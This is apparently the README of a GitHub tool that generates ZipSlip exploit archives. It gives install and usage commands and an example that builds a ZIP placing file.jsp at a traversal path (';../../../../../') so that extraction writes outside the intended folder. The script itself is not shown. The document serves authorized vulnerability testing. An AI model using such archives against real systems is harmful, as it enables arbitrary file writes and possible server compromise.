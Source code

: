 # ZipSlip Exploit 

a Python script to test ZipSlip . The script allows you to specify a path to include files in locations when the ZIP file is extracted.
Specify a  path (../) to the file you want to write.



## requirements:

```bash
pip install -r requirements.txt
```

## Usage

Clone this repository:

git clone https://github.com/d3sca/zipslip-exploit-generator.git
cd zipslip-exploit-generator

Run the script with the following arguments:

```bash
python slip.py -n <zip_name> -p <file_path> -z <zip_slip_path>
```
## Arguments

-n, --name: Name of the ZIP file to create.

-p, --path: Path to the file to include in the ZIP.

-z, --zipslip: Number of ../ sequences to include in the malicious payload path (e.g., ;../../../../../).

## Example

Create a ZIP file named poc.zip containing file.jsp at a malicious path:

python slip.py -n poc.zip -p ./file.jsp -z ";../../../../../"

## Output

The script generates a ZIP file with the specified payload path. You can use this file to test ZipSlip vulnerabilities in extraction utilities or applications.


## Disclaimer

This script is for educational purposes and authorized testing only. Do not use it for malicious purposes.
Always obtain permission before testing on any system.
The author is not responsible for any misuse of this tool. Ensure you have appropriate permissions before using this script for testing purposes.
